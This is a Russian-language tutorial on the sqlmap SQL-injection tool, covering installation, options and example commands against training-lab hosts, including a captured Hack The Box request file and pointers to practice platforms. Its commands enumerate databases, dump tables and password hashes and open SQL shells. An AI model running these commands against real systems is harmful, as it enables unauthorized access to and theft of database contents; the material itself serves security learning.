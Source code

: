 ## SQLMAP

## Введение

**Sqlmap** — это бесплатный инструмент на **Python**, для автоматизации поиска, эксплуатации и тестирования уязвимостей **SQL**.

[Sqlmap](https://spy-soft.net/sqlmap/) — это, наверное, самый известный сканер для поиска **SQL**-инъекций. Его разработкой занимаются Мирослав Штампар (Хорватия) и Бернардо Дамеле (Италия). Особенность этого сканера в том, что он может не только найти ошибку, но и сразу эксплуатировать ее, причем в полностью автоматическом режиме. Умеет работать с **БД MySQL**, **MS SQL**, **PostgreSQL** и **Oracle**.

**Возможности SQLMap:**

- Автоматическое обнаружение **SQL** инъекций, в том числе слепых инъекций.
- Внедрение в веб-приложение для выполнения произвольных **SQL** запросов и получения несанкционированного доступа к БД.
- Извлечение данных из БД, включая пароли пользователей.
- Возможность работы через прокси и эвазионные техники для обхода **WAF**.
- Поддержка широкого списка **СУБД**, включая **MySQL**, **Oracle**, **PostgreSQL** и др.

Этот инструмент способен обнаружить уязвимости **SQL**-инъекции с использованием различных методов. Если будет обнаружена уязвимость, он способен атаковать сервер для определения имен таблиц, загрузки базы данных и автоматического выполнения SQL-запросов.

Как только он обнаруживает SQL-инъекцию на целевом хосте, вы сможете:

- Провести обширное обнаружение версии базы данных бэкэнда
- Получить имя пользователя и базы данных сессии DBMS
- Перечислить пользователей, хеши паролей, привилегии и базы данных
- Выгрузить всю таблицу/столбцы DBMS или конкретную таблицу/столбцы пользователя
- Выполнить пользовательские SQL-запросы

---

## Установка SQLMap

**SQLMap** по умолчанию установлен в некоторые секьюрити дистрибутивы, такие как [Kali Linux](https://spy-soft.net/kali-linux-live-usb-persistence/) (в полной версии).

Для установки **SQLMap** на **Kali Linux** (легкую версию) или другие дистрибутивы на базе **Debian**, выполните команду:
``` 
sudo apt-get install sqlmap
```
Еще один способ установки — это скачивание из [репозитория проекта на GitHub](https://github.com/sqlmapproject/sqlmap "репозитория проекта на GitHub").

---

## Использование SQLMap на Kali Linux

После установки, откройте справку и изучите **параметры использования**:
```
sqlmap  -h
```
**Параметры справки**:
```
-h, --help — показать основное сообщение справки и завершить выполнение
-hh — показать расширенное сообщение справки и завершить выполнение
--version — показать номер версии программы и завершить выполнение
-v VERBOSE — уровень детализации: 0-6 (по умолчанию 1)
```
>**Цель** — должен быть предоставлен хотя бы один из этих параметров для определения цели(ей):
``` 
-u URL, --url=URL — целевой урл(например, "http://www.site.com/vuln.php?id=1")
-g GOOGLEDORK — обработать результаты Google dork как целевые урлы
```
>**Инъекция** — эти аргументы могут быть использованы для указания, какие параметры тестировать, предоставить пользовательские внедряемые данные и необязательные сценарии модификации:
```
-p TESTPARAMETER — параметр(ы), подлежащий(е) тестированию
--dbms=DBMS — принудительно задать используемую СУБД (базу данных)
```
>**Обнаружение** — эти аргументы могут быть использованы для настройки фазы обнаружения:
```
--level=LEVEL — уровень тестирования (1-5, по умолчанию 1)
--risk=RISK — уровень риска тестирования (1-3, по умолчанию 1)
```
>**Техники** — эти аргументы могут быть использованы для настройки тестирования конкретных техник SQL-инъекций:
```
--technique=TECH.. — используемые техники SQL-инъекций (по умолчанию "BEUSTQ")
```
>**Перечисление** — эти аргументы могут быть использованы для перечисления информации о СУБД, структуре и данных в таблицах:
```
-a, --all — получить все

-b, --banner — получить баннер СУБД
--current-user — получить текущего пользователя СУБД
--current-db — получить текущую базу данных СУБД
--passwords — перечислить хеши паролей пользователей СУБД

--tables — перечислить таблицы базы данных СУБД
--columns — перечислить столбцы таблиц базы данных СУБД
--schema — перечислить схему СУБД

--dump — получить записи таблицы базы данных СУБД
--dump-all — получить все записи таблиц всех баз данных СУБД
-D DB — база данных СУБД для перечисления

-T TBL — таблица(ы) базы данных СУБД для перечисления
-C COL — столбец(ы) таблицы базы данных СУБД для перечисления
```

---

##### **Опции**

- `--data` – указываем параметры для тестирования, передающиеся в **POST**-запросе (например, `data=&quot;txtLoginID=skan&amp;txtPassword=pass&amp;cmdSubmit=Login&quot;`);
- `--crawl` – сканирование сайта с целевого **URL**. С помощью этой опции можно выставить глубину, ниже которой sqlmap не будет сканировать (например, `--crawl=3`);
- `-f --forms` – парсинг и анализ форм на целевом **URL**;
- `-dbs` – ключ для перечисления имеющихся баз данных;
- `--sql-shell` - получить шелл для взаимодействия с базой данных с использованием языка запросов **SQL**.
- `-sql-query STRING` - выполнит указанную нами команду/запрос. Например: `-sql-query "SELECT * FROM products"` 
- `--sqlmap-shell` - интерактивный **shell** самого **sqlmap**. Пример:
	```
	sqlmap -u "http://<IP-адрес>/index.php?username=&password=&" --sqlmap-shell
	
	sqlmap-shell> --dbs
	```
---

##### **Примеры использования**

- `sqlmap --url http://www.hacktory.lab/?id=1` – сканировать параметр id в интерактивном режиме;
- `sqlmap --url http://www.hacktory.lab/?id=1 --batch` – сканировать параметр id автоматически;
- `sqlmap --url http://www.hacktory.lab/?id=1 --dbs` – получить список БД;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db --tables` – для БД db получить список таблиц;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db -T table --dump-all` – для БД db и таблицы table получить все данные.

---

##### **Другие примеры**
```
sqlmap --help
sqlmap -u "<url>" --cookie="name=value"
```
Для более детального сканирование можно скопировать нужный пакет с запросом из burpsuite в файл request.txt и далее использовать сканирование:
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch --dbs --threads 10 --hex 
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> --tables --threads 10 --dump-all
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> -T <table> -C <column>,<column2> --dump --threads 10
```
где request.txt:
```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6ImVKeENTWE5uTmk0WEtQT0crMXJpM0E9PSIsInZhbHVlIjoiblo4V0tBdGF1REIvOEpadnl3eFRyMWF5Z29LWG1vWGFMaTFBSm1rYnUzMng2MHl4enpWR1paQ2ljaWNZQlZvQ2d4Uy9NbTloVThwSkRQemZwZ2VFNkFBdk15ZkVEOHd0ZzhhTjZtTHhIYSt4aEwrbGRsS0xxSHpGb1I1blZDOGMiLCJtYWMiOiI5NTFmNDBiMzJhZjBkMzhkMjNmNzRkMmUxMTZkYjg5OTBmOWM2MzE3NzIxNzViNjhkMTk3ZWI4ODYxM2FlOGYwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im9wRVFkK0RRcFk4NlRpTmhUZys5dGc9PSIsInZhbHVlIjoiVUVwYXJtdWg5R3BZSWhEMHhnZDFOVTJZZkVzU3lPY1ViMUxtUWFKZUN5NFpNTHBmSGJRMjV5UDNOYm5IdXhqZGNnRDFicTBhekZYTnJrUXdTNWlWcEh2UVhPTmVlVmYwOXN6WlZzVGFkREZHWWlTOU91a3RNdEFUWGdLMFgwTGMiLCJtYWMiOiJiMzExMGE3ZDliYzczOWYxNzk2NGJiOTliZDQyYzdhZTQzMjBmZjZiZjZhY2QyYWE4YjkyNzg3MThiYTc5MTUzIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=NX6KOxDfLMuybJ3qXJh69reEQvm2aNkfNxeSui9U&email=qwelab
```

## Где новичку практиковаться по SQLi?

Я рекомен­дую прой­ти пару тре­ниро­воч­ных заданий. Нап­ример, мо­дуль [HTB Academy](https://spy-soft.net/hack-the-box/), пос­вящен­ный SQLi, или [ана­логич­ный модуль](https://tryhackme.com/room/sqlinjectionlm "ана­логич­ный модуль") на пло­щад­ке [TryHackMe](https://spy-soft.net/tryhackme/). А еще луч­ше — оба!

За­тем можете заг­лянуть на сайт PortSwigger и прой­ти «путь» [SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection "SQL injection"). Сра­зу пре­дуп­реждаю, что он слож­ный и даже очень слож­ный для нович­ка, но там вез­де при­веде­ны отве­ты. Луч­ше в них не смот­реть сра­зу, но, если вдруг зас­тря­нете, они выручат.

Еще могу пореко­мен­довать две очень инте­рес­ные лабора­тор­ные работы с пло­щад­ки Hack The Box: PC и Magic или хотя бы те их час­ти, что свя­заны с ата­ками на веб и получе­нием поль­зователь­ско­го фла­га (повыше­ние при­виле­гий в Linux можете пока не тро­гать).

Также отличный ресурс: [SQL injection challenge (hackerdom.ru)](https://sql.training.hackerdom.ru/). ([подсказки](https://forum.antichat.club/threads/423579/page-2))